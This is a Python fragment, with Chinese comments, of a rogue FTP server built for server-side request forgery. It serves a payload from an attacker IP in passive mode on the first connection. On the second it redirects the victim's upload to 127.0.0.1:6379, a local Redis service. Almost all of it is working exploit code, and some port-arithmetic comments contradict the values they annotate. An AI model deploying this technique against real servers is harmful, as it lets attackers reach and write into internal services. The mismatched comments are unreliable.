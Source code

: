     # 计数器，用于区分是第几次ftp连接
    count = 1
    while 1:
        conn, address = sk.accept()
        conn.send(b"200 \n")
        print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
        if count == 1:
            conn.send(b"220 ready\n")
        else:
            conn.send(b"200 ready\n")
    
        print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
        if count == 1:
            conn.send(b"215 \n")
        else:
            conn.send(b"200 \n")
    
        print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
        if count == 1:
            conn.send(b"213 3 \n")
        else:
            conn.send(b"300 \n")
    
        print(conn.recv(20))  # EPSV\r\n'
        conn.send(b"200 \n")
    
        print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
        if count == 1:
            conn.send(b"227 47,101,57,72,0,2333\n")  # 服务端告诉客户端需要到那个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
        else:
            conn.send(b"227 127,0,0,1,0,6379\n")  # 端口计算规则：35*256+40=9000
    
        print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
        if count == 1:
            conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
            # 新建一个socket给服务端返回我们的payload
            print("建立连接!")
            conn2, address2 = sk2.accept()
            conn2.send(payload)
            conn2.close()
            print("断开连接!")
        else:
            conn.send(b"150 \n")
            print(conn.recv(20))
            exit()
    
        # 第一次连接是下载文件，需要告诉客户端下载已经结束
        if count == 1:
            conn.send(b"226 \n")
        conn.close()
        count += 1
    